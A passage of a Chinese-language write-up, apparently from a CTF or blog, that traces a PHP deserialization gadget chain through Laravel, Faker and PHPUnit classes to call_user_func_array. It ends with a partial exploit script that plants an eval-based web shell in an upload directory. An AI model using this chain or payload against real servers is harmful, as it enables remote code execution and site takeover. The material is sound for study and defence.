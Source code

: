 第一次先通过g1调用g2中的`getFormatter`，然后这是时候就可以通过g2的`getFormatter()`返回其他任意类，控制`ValidGenerator`中的`$res`。

（g1和g2只是类中变量不同的两个`Gennerator`类。这里确实满饶的，理了好久。。

可以返回任意类时就需要找一个比较好一点的类。

### StaticInvocation

`phpunit\phpunit\src\Framework\MockObject\Stub\ReturnCallback.php:26`

```php
public function invoke(Invocation $invocation)
{
    return \call_user_func_array($this->callback, $invocation->getParameters());
}
```

这里调用了`call_user_func_array`并且两个参数都是反序列化可控的。由于`Invocation`只是个接口。找到具体的实现类即可。

```php
class StaticInvocation implements Invocation, SelfDescribing
{    
    public function getMethodName(): string
    {
        return $this->methodName;
    }
}
```

返回这个类，最后通过`ValidGenerator`中的

```php
while (!call_user_func($this->validator, $res));
```

完全全部攻击链

## EXP

根据之前的分析，就可以写出EXP

```php
<?php

/**
 * @Author: King kaki
 * @Date:   2018-12-03 20:48:26
 * @Last Modified by:   King kaki
 * @Last Modified time: 2018-12-04 21:18:08
 */

namespace Illuminate\Broadcasting{
	class PendingBroadcast{
		function __construct(){
			$this->events = new \Faker\ValidGenerator();
			$this->event = 'kingkk';
		}
	}
}


namespace PHPUnit\Framework\MockObject\Invocation{
	class StaticInvocation{
		function __construct(){
			$this->parameters = array('/var/www/html/upload/k.php','<?php phpinfo();eval($_POST["k"]);?>');
		}
	}
}
```